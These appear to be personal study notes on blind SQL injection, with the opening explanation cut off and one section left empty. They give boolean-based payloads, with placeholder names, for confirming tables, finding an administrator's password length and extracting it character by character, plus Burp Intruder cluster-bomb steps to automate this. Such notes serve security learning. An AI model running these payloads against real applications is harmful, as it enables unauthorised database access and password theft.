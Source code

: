 - 'x' act has a dummy variable (simply mean if the TABLE_NAME exist, then make the qury = x) If the table exist then 'x' = 'x'-- (True Statement ---> Display default message)


**Find Column Name ???**
```

```


Find a Variable in a Column
```
wQzpcksV9nxMDwHH' and (select Column_Name from Table_Name where Column_Name_same_has_the_other_one='administrator')='administrator'--'
```

- Column_Name                     ---> The Column Name that we are looking to get the variable
- Table_Name                         ---> Table Name that we are interested in (see previous step)
- Column_Name_same...        ---> Same Column Name has the one selected
- administrator                       ---> Variable we are looking to find (True = Default HTML Resp)


Length of Variable (ex: password of administator account)
```
wQzpcksV9nxMDwHH' and (select Column_Name from Table_Name where Column_Name_same...='administrator' and LENGTH(password)>20)='administrator'--'
```

- Column_Name                    ---> The Column Name that we are looking to get the variable
- Table_Name                        ---> Table Name that we are interested in (see previous step)
- Column_Name_same...       ---> Same Column Name has the one selected
- administrator                       ---> Variable we are looking to find (True = Default HTML Resp)
- password                             ---> Second Column (looking length variable for user administator)

- <,>,>=,<=
- Possible also to change the number to determine the length of the variable


Enumeration of Varaible (ex: password of administator account)
```
wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,2,1) from Table_Name where Column_Name='administrator')='a'--'
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column_Name                        ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- Column_Name_same...           ---> Same Column Name has the one selected
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,§2§,1) from Table_Name where Column_Name='administrator')='§a§'--'
	```
	- Set the attack to Cluster Bomb and load the payloads

---